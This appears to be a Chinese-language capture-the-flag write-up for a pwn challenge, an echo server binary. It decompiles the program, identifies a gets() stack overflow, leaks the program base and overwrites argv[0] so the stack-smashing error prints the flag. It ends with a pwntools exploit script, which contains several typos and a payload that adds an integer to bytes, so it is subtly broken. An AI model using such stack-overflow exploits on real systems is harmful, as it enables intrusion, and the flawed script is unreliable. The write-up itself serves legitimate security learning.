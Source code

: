 第一步，我们通过我们检查我们的保护措施
![[Pasted image 20240203102545.png]]
发现我们的保护全开

第二步：使用 IDA 查看我们的源代码:
```cpp
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  bool v3; // zf
  __int64 v4; // rcx
  char *v5; // rsi
  const char *v6; // rdi
  char v8[16]; // [rsp+0h] [rbp-A8h] BYREF
  __int64 (__fastcall *v9)(); // [rsp+10h] [rbp-98h]
  char v10[104]; // [rsp+20h] [rbp-88h] BYREF
  unsigned __int64 v11; // [rsp+88h] [rbp-20h]

  v11 = __readfsqword(0x28u);
  sub_DA0(a1, a2, a3);
  sub_F40();
  v9 = sub_CF0;
  puts("Hi~ This is a very easy echo server.");
  puts("Please give me your name~");
  _printf_chk(1LL, "Name: ");
  sub_E40(v8);
  _printf_chk(1LL, "Welcome %s into the server!\n", v8);
  do
  {
    while ( 1 )
    {
      _printf_chk(1LL, "Input: ");
      gets(v10);
      _printf_chk(1LL, "Output: %s\n\n", v10);
      v4 = 9LL;
      v5 = v10;
      v6 = "backdoor";
      do
      {
        if ( !v4 )
          break;
        v3 = *v5++ == *v6++;
        --v4;
      }
      while ( v3 );
      if ( !v3 )
        break;
      ((void (__fastcall *)(const char *, char *))v9)(v6, v5);
    }
  }
  while ( strcmp(v10, "exitexit") );
  puts("See you next time~");
  return 0LL;
}
```

我们发现，我们存在一个读入 `v8`,和一个读入 `v10`，其中读入 `v8` 的有点神奇，大概就是写什么就读什么，但是读入 `v10` 的明显存在一个栈溢出漏洞。我们考虑怎么利用这个漏洞来泄露我们需要的信息。

观察到，我们的第二个 printf 可以泄露我们的信息，
![[Pasted image 20240203103350.png]]

我们可以观察一下他泄露了什么信息。我们发现，我们泄露的信息是我们的某一个栈上的一个类似于函数地址的玩意儿，如下所示：(0x55c20cc68cf0）

我们于是可以通过我们的这一个地址和我们的内存机制进行比较后求出我们的内存的地址是多少。这里，我们需要通过我们的 `vmmap` 来进行查询。
![[Pasted image 20240203135805.png]]

之后，我们就能得到我们的偏移量就是我们的 `cf0`,于是我们就得到了我们的基地址。

接下来，我们的目标就是获得我们 flag 的存放位置在哪里，这里，我们可以通过执行我们的函数后动态调试获得。
![[Pasted image 20240203141547.png]]

我们得到了我们的一个 flag 的地址，然后又已知了我们的基址，我们就可以求出我们 flag 的地址。或者我们也可以通过我们的对应函数得到：
![[Pasted image 20240203142751.png]]


接下来我们就要找到我们的 agrv 0 参数。这里，因为我们是采用我们的 `stack_checkstack`
```cpp
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

接下来，我们的工作就是找到 `argv[0]` 对应的位置，修改为我们的 flag 即可。

```python
from pwn import *

from struct import pack

from ctypes import *

import base64

from LibcSearcher import *

def debug(c=0):

    if(c):

        gdb.attach(p,c)

    else:

        gdb.attach(p)

        pause()

def get_sb() :return libc_base+libc_sym['system'],libc_base+next(libc.search(b'/bin/sh\x00'))

  

#-----------------------------------------------------------------

s=lambda data : p.send(data)

sa=lambda text,data :p.sendafter(text, data)

sl=lambda data :p,sendline(data)

sla = lambda text,data :p.sendlineafter(text, data)

r = lambda num=4696:p.recv(num)

rl = lambda text :p.recvuntil(text)

pr = lambda num=4096 :print(p,recv(num))

inter= lambda :p.interactive()

l32=lambda :u32(p.recvuntil(b'(xf7')[-4:].ljust(4,b'\x00'))

l64=lambda :u64(p.recvuntil(b'(x7f')[-6:],ljust(8,b'\x00'))

uu32 =lambda:u32(p,recv(4),ljust(4,b'\x00'))

uu64 =lambda:u64(p.recv(6).ljust(8,b'\x00'))

int16 = lambda data :int(data,16)

lg =lambda s,num :p.success("%s ->0x%x" %(s,num))

  

#--------------------------------------------------------------

  

p=process('./pwn')

elf=ELF('./pwn')

libc=ELF('./lib/x86_64-linux-gnu/libc.so.6')

sa(b'name ',b'a'*0x10)
rl(b'a'*0x10)
pro_base=uu64()-0xcf0
sa(b'Input:',b'backdoor\x00')
payload=pro_base+0x202040
sa(b'Input',b'a'*0x168+payload)
sa(b'Input',b'exitexit\x00')
rl()
inter()
```